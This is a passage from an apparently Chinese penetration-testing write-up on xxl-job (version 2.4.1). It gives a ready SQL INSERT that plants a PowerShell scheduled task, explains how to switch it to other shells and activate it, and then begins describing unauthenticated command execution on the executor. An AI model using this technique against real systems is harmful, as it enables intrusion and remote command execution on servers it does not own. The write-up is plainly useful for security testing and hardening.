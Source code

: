 ## 2、通过向数据库中写入数据进行 getshell

这是我偶然发现的一个小 trick，其实原理很简单，xxl-job-admin 会定时从数据库中查询待执行的任务，在一定时间内执行。也就是说，我们只需要往数据库里插入我们构造好的恶意定时任务。他便会让 executor 去执行。当前测试版本为 2.4.1（不同版本的 xxl-job 的数据库结构不太相同，以最新版的为例，旧版的在之前遇到的环境中经测试也能打通。）  
只需要在 xxl\_job.xxl\_job\_info 中插入这条语句即可

```plain
INSERT INTO `xxl_job`.`xxl_job_info` 
(`id`, `job_group`, `job_desc`, `add_time`, `update_time`, `author`, `alarm_email`, `schedule_type`, `schedule_conf`, `misfire_strategy`, `executor_route_strategy`, `executor_handler`, `executor_param`, `executor_block_strategy`, `executor_timeout`, `executor_fail_retry_count`, `glue_type`, `glue_source`, `glue_remark`, `glue_updatetime`, `child_jobid`, `trigger_status`, `trigger_last_time`, `trigger_next_time`) 
VALUES (7, 1, '22222', '2023-12-27 14:57:36', '2023-12-27 14:58:23', '22222', '', 'CRON', '0/5 * * * * ?', 'DO_NOTHING', 'FIRST', '', '', 'SERIAL_EXECUTION', 0, 0, 'GLUE_POWERSHELL', 'calc\n', '12312321', '2023-12-27 14:57:48', '', 0, 1703660320000, 1703660325000);
```

其中有几个值得关注的点：  
`schedule_type`为`corn`轮询，`0/5 * * * * ?`则是计划任务执行的时间我这里设定为 5 秒 1 次。`executor_handler`则是执行命令的类型，我这里因为在 Windows 下测试，故而选择为 powershell，也可变为`GLUE_SHELL`或者`GLUE_GROOVY`等来应对不同的命令。目前我们只是插入了命令，并不能执行，要是想执行，还需要在插入数据之后把`trigger_status`的值改为 1，executor 便会自动开始执行我们输入的命令。

# 五、executor 未授权访问

xxl-job 的 executeor 存在未授权访问漏洞，指纹如下图所示  
低版本  
[![](assets/1709169576-53ae4dc7bee6719e22c749a0d23c3d34.png)](https://cdn.nlark.com/yuque/0/2024/png/29650981/1704266736286-5b119dc7-4303-42e2-ad40-2b689d2ae8e4.png#averageHue=%23f8f6f5&clientId=uda75761c-b57d-4&from=paste&height=472&id=u0a79f53d&originHeight=590&originWidth=1916&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=124429&status=done&style=none&taskId=u885078d7-c9ad-498c-abcf-45d68525b29&title=&width=1532.8)  
高版本  
[![](assets/1709169576-299bc542df19807d10ab9c5b47204baa.png)](https://cdn.nlark.com/yuque/0/2023/png/29650981/1703663011317-df84d430-e2ca-4a2b-9cae-3c3d779c4890.png#averageHue=%23fdfdfd&clientId=ub082ba60-41a2-4&from=paste&height=491&id=u48d21e64&originHeight=981&originWidth=2637&originalType=binary&ratio=2&rotation=0&showTitle=false&size=57591&status=done&style=none&taskId=ua06ca288-a9fd-4daa-804d-8f7a55b450e&title=&width=1318.5)  
其原因就是 admin 端与 executeor 端通过互相发送 tcp 包进行通信，攻击者可伪造包，使 executeor 执行命令。  
该漏洞主要分为三个阶段
